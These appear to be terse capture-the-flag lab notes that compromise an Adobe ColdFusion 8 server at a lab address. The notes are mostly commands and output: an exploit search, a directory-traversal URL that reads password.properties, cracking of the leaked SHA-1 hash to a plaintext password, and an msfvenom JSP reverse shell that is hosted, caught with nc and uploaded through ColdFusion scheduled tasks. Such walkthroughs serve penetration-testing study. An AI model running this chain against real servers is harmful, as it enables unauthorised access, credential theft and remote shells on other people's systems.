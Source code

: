 searchsploit coldfusion

ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)    | exploits/cfm/webapps/16788.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query Str | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizard | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.c | exploits/cfm/webapps/33168.txt
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                  | exploits/cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                               | exploits/multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                  | exploits/multiple/remote/16985.rb

CVE-2010-2861
<http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../Coldfusion8/lib/password.properties%00en>

#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 

hashid -m 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 [Hashcat Mode: 100]
[+] Double SHA-1 [Hashcat Mode: 4500]
[+] RIPEMD-160 [Hashcat Mode: 6000]
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn [Hashcat Mode: 190]
[+] Skein-256(160) 
[+] Skein-512(160) 


user@kalisi:~/Downloads$ hashcat -m 100 sha1hash --show
user@kalisi:~/Downloads$ 


sudo john --format=raw-sha1 sha1hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
happyday         (?)
1g 0:00:00:00 DONE 2/3 (2020-06-12 07:39) 100.0g/s 145600p/s 145600c/s 145600C/s hamilton..harley1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed

user@kalisi:~/Downloads$ sudo john --format=raw-sha1 sha1hash --show
?:happyday

1 password hash cracked, 0 left

---
#create payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=41854 -f raw > arcticreverseshell.jsp

#serve up payload
sudo python -m SimpleHTTPServer 80

#listener
nc -nlvp 41854

#ColdFusion Scheduled Tasks
URL:<http://10.10.14.5/arcticreverseshell.jsp>
File: C:\ColdFustion8\wwwroot\CFIDE\arctic.jsp


